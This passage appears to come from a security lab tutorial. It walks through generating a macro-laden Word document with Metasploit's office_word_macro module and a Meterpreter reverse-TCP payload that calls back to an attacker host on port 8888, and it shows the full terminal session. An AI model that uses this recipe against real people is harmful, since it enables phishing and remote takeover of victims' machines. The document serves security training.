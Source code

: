 ### Creating the Malicious Document

The first step would be to embed a malicious macro within the document. Alternatively, you can use the Metasploit Framework to create such a document, as this would spare us the need for a system with MS Office.

You will use the Metasploit Framework to create the document with the malicious macro. This requires the following commands:

*   Open a new terminal window and run `msfconsole` to start the Metasploit Framework
*   `set payload windows/meterpreter/reverse_tcp` specifies the payload to use; in this case, it connects to the specified host and creates a reverse shell
*   `use exploit/multi/fileformat/office_word_macro` specifies the exploit you want to use. Technically speaking, this is not an exploit; it is a module to create a document with a macro
*   `set LHOST CONNECTION_IP` specifies the IP address of the attacker’s system, `CONNECTION_IP` in this case is the IP of the AttackBox
*   `set LPORT 8888` specifies the port number you are going to listen on for incoming connections on the AttackBox
*   `show options` shows the configuration options to ensure that everything has been set properly, i.e., the IP address and port number in this example
*   `exploit` generates a macro and embeds it in a document
*   `exit` to quit and return to the terminal

In the terminal below, you can see the execution of the above steps.

AttackBox Terminal

root@AttackBox:~\# msfconsole   
\[...\]  
Metasploit Documentation: https://docs.metasploit.com/

msf6 > set payload windows/meterpreter/reverse\_tcp  
payload => windows/meterpreter/reverse\_tcp  
msf6 > use exploit/multi/fileformat/office\_word\_macro  
\[\*\] Using configured payload windows/meterpreter/reverse\_tcp  
msf6 exploit(multi/fileformat/office\_word\_macro) > set LHOST CONNECTION\_IP  
LHOST => CONNECTION\_IP  
msf6 exploit(multi/fileformat/office\_word\_macro) > set LPORT 8888  
LPORT => 8888  
msf6 exploit(multi/fileformat/office\_word\_macro) > show options

Module options (exploit/multi/fileformat/office\_word\_macro):

   Name            Current Setting  Required  Description  
   ----            ---------------  --------  -----------  
   CUSTOMTEMPLATE                   no        A docx file that will be used as a template to build the exploit  
   FILENAME        msf.docm         yes       The Office document macro file (docm)  
  

Payload options (windows/meterpreter/reverse\_tcp):

   Name      Current Setting  Required  Description  
   ----      ---------------  --------  -----------  
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)  
   LHOST     CONNECTION\_IP    yes       The listen address (an interface may be specified)  
   LPORT     8888             yes       The listen port
